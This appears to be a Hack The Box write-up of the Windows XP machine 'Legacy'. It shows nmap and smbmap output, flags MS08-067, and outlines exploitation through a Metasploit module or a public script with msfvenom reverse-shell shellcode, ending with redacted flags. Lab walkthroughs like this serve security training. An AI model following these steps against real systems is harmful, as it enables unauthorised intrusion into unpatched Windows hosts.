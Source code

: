 ```yaml
---
title:     "Hack The Box - Legacy"
tags: [windows,easy,smb,ms08-067]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : <https://www.hackthebox.eu/home/machines/profile/2>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/4.png)

I replaced my shellcode here 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/6.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/7.png)

Started my listener on background.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````


